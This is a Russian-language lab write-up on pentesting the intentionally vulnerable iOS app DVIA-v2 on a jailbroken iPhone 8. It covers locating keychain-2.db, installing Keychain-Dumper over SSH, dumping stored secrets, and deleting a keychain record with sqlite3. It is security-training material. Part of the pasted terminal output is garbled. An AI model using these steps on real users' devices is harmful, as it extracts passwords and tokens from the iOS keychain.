




тест на приложении DVIA-v2
айфон 8 ios 16.7.14
джейлбрейк - palera1n

-------

## для инфы - сперва гляну, как и где хранитсья в файлах телефона это дело через Filza

открываю DVIA-v2, в меню выбрал Local Data Storage → Keychain Data Storage
и сохранил туда строку для теста `555555rrrrrr`

теперь через филза перехожу в файлы кейчан
перехожу /var/Keychains/keychain-2.db

вот он файл keychain-2.db 
это бд SQLite




там куча таблиц, меня интересует только таблица **`genp`**

в этой таблица куча колонок, но меня интересуется только `agrp`

и там ищу нужное приложение 
- это строка нужного мне приложения!
  это **идентификатор приложения**, которому принадлежат эти данные Keychain



но здесь данные в зашифрованном виде

## и чтобы их расшифровать - понадобиться 

 ## Keychain-Dumper

подключаюсь к телефону по ssh

кидаю прокси
`iproxy 44444 44`
`ssh -p 44444 root@localhost`

на  самом  телефоне  должен  стоять курл - `apt-get install curl`


```q
 1 создём папку для работы на рабочем столе
cd ~/Desktop && mkdir KeychainFix && cd KeychainFix

 2 СКАЧИВАЕМ бинарник Keychain-Dumper версии 1.2.0 (твой файл)
curl -L -o keychain_dumper.zip https://github.com/ptoomey3/Keychain-Dumper/releases/download/1.2.0/keychain_dumper-1.2.0.zip

 3 распаковваем архив (внутри появится файл keychain_dumper)
unzip -j keychain_dumper.zip

 4 СКАЧИВАЕМ скрипт для обновления прав
curl -L -o updateEntitlements.sh https://raw.githubusercontent.com/ptoomey3/Keychain-Dumper/master/updateEntitlements.sh

 5 копируем оба файла в правильную папку на iPhone через SSH

 копирум keychain_dumper в /usr/bin/

cat ~/Desktop/KeychainFix/keychain_dumper | ssh -p 44444 root@localhost "cat > /usr/bin/keychain_dumper"

 копируем updateEntitlements.sh во временную папку

cat ~/Desktop/KeychainFix/updateEntitlements.sh | ssh -p 44444 root@localhost "cat > /tmp/updateEntitlements.sh"
```

далее в рут айфона:

```q
 даём права
chmod +x /usr/bin/keychain_dumper
chmod +x /tmp/updateEntitlements.sh


мне не хватало завистмостей
sqlite3 - для чтения базы Keychain скриптом 
ldid - для подписи бинарника entitlements

apt-get update
apt-get install sqlite3 ldid

потом запуск скипта обновления прав
cd /tmp && ./updateEntitlements.sh


херачим кейчен нужного приложения!

keychain_dumper | grep -A 10 -B 5 "DVIA"
```

и вуаля - получил все данные из кейчейн!



в том же числе и сам заданный пароль (*55555rrrrrr*), который сохранил в кейчейн в приложении DVIA-v2
```c
Generic Password
----------------
Service: com.highaltitudehacks.DVIAswiftv2
Account: keychainValue
Entitlement Group: UAVZNE8PJA.com.highaltitudehacks.DVIAswiftv2
Label: (null)
Accessible Attribute: kSecAttrAccessibleWhenUnlocked, protection level 2 (default)
Description: (null)
Comment: (null)
Synchronizable: 0
Generic Field: (null)
Keychain Data: 55555rrrrrr  👈👈 🟢 👈 вот он!🍺
```

#### уровни защиты  keychain

> уровень - protection level 2 (default)
kSecAttrAccessibleWhenUnlocked - значит, что бд доступна только при разблокир айфоне, При блокировке - `NULL`

> а вот 4 уровень **`kSecAttrAccessibleAfterFirstUnlock`** - значит , что данные можно достать  только после первой разблокировки после перезагрузки телефона. После ввода - доступны всегда!

> еще бывает kSecAttrAccessibleAlways - когда данные доступны даже при заблокир экране 

> и жесткий вариант - kSecAttrAccessibleWhenPasscodeSetThisDeviceOnly - Требует наличия пароля на устройстве, иначе данные не сохранить


-------------

### далее - просто пример того, как можно изменить значение

теперь нужно сделать так, чтобы изменить значение:

гляну окружение: 

```c
keychain_dumper | grep -B 5 -A 5 "keychainValue"` ```q \h:\w \u$ keychain_dumper | grep -B 5 -A 5 "keychainValue" Keychain Data (Hex): 0x62706c6973743030d4010203040506070a582476657273696f6e592461726368697665725424746f7058246f626a6563747312000186a05f100f4e534b657965644172636869766572d1080954726f6f748001a30b0c1155246e756c6cd20d0e0f10574e532e74696d655624636c6173732341c7ca11e597e4f78002d2121314155a24636c6173736e616d655824636c6173736573564e5344617465a21416584e534f626a65637408111a24293237494c5153575d626a717a7c818c959c9f00000000000001010000000000000017000000000000000000000000000000a8 Generic Password ---------------- Service: com.highaltitudehacks.DVIAswiftv2 Account: keychainValue Entitlement Group: UAVZNE8PJA.com.highaltitudehacks.DVIAswiftv2 Label: (null) Accessible Attribute: kSecAttrAccessibleWhenUnlocked, protection level 2 (default) Description: (null) Comment: (null) ^�й hex-�^��^��^�ок�^� и п�^�еоб�^�аз�^�й �� �^�ек�^��^� < 000000000000000000a8" | xxd -r -p | plutil -convert json - -o - < sh: xxd: inaccessible or not found sh: plutil: inaccessible or not found CT rowid, acct FROM genp WHERE acct = 'keychainValue';" < CT hex(data) FROM genp WHERE rowid = 1136👈👈👈;" > /tmp/old_hex.txt < \h:\w \u$ 
```

вот номер столбца = rowid = 1136

удаляю запись по столбцу!
```q
sqlite3 /var/Keychains/keychain-2.db "DELETE FROM genp WHERE rowid = 1136;"
```

проверю, поменялось ли значение:
`keychain_dumper | grep -A 10 -B 5 "DVIA"`

и вуаля! пароль  55555rrrrrr отсутствует ! значит, запись удалена!

открываю DVIA-v2 - смотрю реакцию приложения
никакой реакции  -  то есть приложение тест провалило, так как нет никакой реакции на изменении данных!

для чистоты эксперемента, я в приложении добавил новую запись
проверю, поменялось ли значение:
`keychain_dumper | grep -A 10 -B 5 "DVIA"`

и, да, вижу новое значение 7777
Keychain Data: 777777



----------